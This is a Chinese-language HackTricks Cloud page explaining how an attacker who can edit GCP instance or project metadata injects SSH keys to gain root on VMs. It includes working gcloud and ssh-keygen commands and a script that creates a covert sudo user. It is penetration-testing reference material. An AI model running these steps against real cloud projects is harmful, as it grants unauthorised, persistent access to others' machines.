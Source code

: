 # GCP - 添加自定义 SSH 元数据

## GCP - 添加自定义 SSH 元数据

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

对实例的元数据修改可能导致 **如果攻击者获得必要权限，将会带来重大安全风险**。

#### **将 SSH 密钥纳入自定义元数据**

在 GCP 上，**Linux 系统** 通常会从 [Google Compute Engine 的 Python Linux 客户环境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) 执行脚本。其关键组件是 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在 **定期检查** 实例元数据端点以获取 **授权 SSH 公钥的更新**。

因此，如果攻击者能够修改自定义元数据，他可以使守护进程找到一个新的公钥，该公钥将被处理并 **集成到本地系统中**。该密钥将被添加到 **现有用户的 `~/.ssh/authorized_keys` 文件中，或者根据密钥的格式可能创建一个具有 `sudo` 权限的新用户**。攻击者将能够攻陷主机。

#### **将 SSH 密钥添加到现有特权用户**

1. **检查实例上的现有 SSH 密钥：**
*   执行命令以描述实例及其元数据，以定位现有的 SSH 密钥。输出中的相关部分将在 `metadata` 下，具体是 `ssh-keys` 键。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* 注意 SSH 密钥的格式：用户名在密钥之前，用冒号分隔。
2. **为 SSH 密钥元数据准备文本文件：**
* 将用户名及其对应的 SSH 密钥的详细信息保存到名为 `meta.txt` 的文本文件中。这对于保留现有密钥并添加新密钥至关重要。
3. **为目标用户（此示例中的 `alice`）生成新的 SSH 密钥：**
*   使用 `ssh-keygen` 命令生成新的 SSH 密钥，确保注释字段（`-C`）与目标用户名匹配。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 将新的公钥添加到 `meta.txt` 中，模仿实例元数据中的格式。
4. **更新实例的 SSH 密钥元数据：**
*   使用 `gcloud compute instances add-metadata` 命令将更新的 SSH 密钥元数据应用于实例。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **使用新的 SSH 密钥访问实例：**
*   使用新的密钥通过 SSH 连接到实例，以目标用户（此示例中的 `alice`）的身份访问 shell。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **创建新特权用户并添加 SSH 密钥**

如果没有找到有趣的用户，可以创建一个新用户并赋予其 `sudo` 权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

通过**在项目级别应用SSH密钥**，可以扩大SSH访问到云环境中的多个虚拟机（VM）。这种方法允许对项目中未明确阻止项目范围内SSH密钥的任何实例进行SSH访问。以下是简要指南：

1. **在项目级别应用SSH密钥：**
*   使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非某个VM启用了“阻止项目范围内SSH密钥”选项。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **使用项目范围内的密钥SSH进入实例：**
* 在项目范围内的SSH密钥到位后，您可以SSH进入项目中的任何实例。未阻止项目范围内密钥的实例将接受SSH密钥，从而授予访问权限。
* SSH进入实例的直接方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥尝试访问。

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
